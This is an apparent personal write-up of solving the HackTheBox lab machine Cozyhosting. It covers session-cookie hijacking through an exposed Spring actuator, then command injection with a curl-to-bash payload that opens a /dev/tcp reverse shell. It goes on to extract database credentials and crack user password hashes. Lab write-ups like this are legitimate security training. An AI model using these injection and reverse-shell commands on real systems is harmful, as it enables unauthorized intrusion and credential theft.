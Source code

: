 # Machine: Cozyhosting [Hacked]
This is the fifteenth machine I have completed on the hackthebox platform. 
### Scan
IP_MACHINE: ip of cozyhosting
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain cozyhosting.htb to the /etc/hosts file and open [ Burpsuite > Proxy > Open Browser ] navigate to route cozyhosting.htb/login. And do a login test with the credentials test:test
## Cookie Hijacking
open the [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ]. Where we can see a cookie that has been generated when trying to log in
```
JSESSIONID:VALUE
```
Now we will use gobuster to discover hidden directories:
```
gobuster dir --url http://cozyhosting.htb/ --wordlist $HOME/SecLists/Discovery/Web-Content/spring-boot.txt
### this is the one we are interested in: /actuator/sessions
```
We open a new tab and go to http://cozyhosting.htb/actuator/sessions where we can see a cookie generated that does not have authorization and another that does belong to the user Khanderson. 
then we copy it and replace it in our cookie [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ] and refresh the page.
### Admin dashboard
Now that we have logged in to the administration panel of the web application, we activate burpsuite traffic interception (Intercept is on). and enter the following values in the connection fields at the end of the Dashboard. We capture the POST method in Burpsuite and send it to [Burpsuite > Repeater].
```
Hostname: IP_MACHINE
Username: test
```
## Getting a reverse shell
already in [Bursuite > Repeater] we have the following message body
```
 host=IP_MACHINE&username=test
```
On our machine, we create a *payload.txt* file with the following content ( MY_IP: the IP address of our machine )
```
bash -i >& /dev/tcp/MY_IP/1234 0>&1
```
we initialize an http server on port 80
```
sudo python3 -m http.server 80
```
in a new terminal we initialize netcat
```
nc -nlvp 1234
```
now we manipulate the message body that we send to [Burpsuite > Repeater]
```
# Burpsuite payload
host=IP_MACHINE&username=$(curl$IFS"MY_IP"/payload.txt|bash)
```
With that we have a reverse shell and when we execute "ls" we discover a file called cloudhosting-0.0.1.jar that we will download locally on our machine to reverse engineer it. then within the reverse shell that we did to cozyhosting we started an http server.
```
# cozyhosting reverse shell
python3 -m http.server
```
To download it to our local machine we use:
```
# local machine
wget IP_MACHINE/cloudhosting-0.0.1.jar
```
## Reading the database
To reverse engineer the file we obtained, we opened [ jd-gui > Openfile > cloudhosting-0.0.1.jar ]. and we head to BOOT-INF/classes/application.properties where we will find the postgres database configurations:
```
# AN_PASSWORD: is the database password
spring.datasource.username=postgres
spring.datasource.password=AN_PASSWORD
```
now we go back to the reverse-shell in cozyhosting but we have to get a fully-tty. The procedure to obtain a fully-tty is as follows:
```
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
Now we enter the Postgres database of the remote system with the credentials that we obtained by reverse engineering the .jar file
```
psql -h <host> -U <username>
# It will ask us for a password, so we enter the AN_PASSWORD
```
Within the database we execute the following commands to obtain the authentication hashes of the system users
```
\c cozyhosting
\d
SELECT * FROM users;
```
## Breaking hashes (cryptography)
which would look like this:
```
# HASHONE: is a hash of 61 characters
# HASHTWO: is another hash of 61 characters
kanderson | HASHONE | User
admin     | HASHTWO | Admin
```
We save them in a hash.txt file and proceed to decrypt the hashes with the John the Ripper tool (This process could take several minutes or even seconds depending on the GPU you have)
```
john --wordlist=$HOME/rockyou.txt hash.txt
```
#### to be continued... 
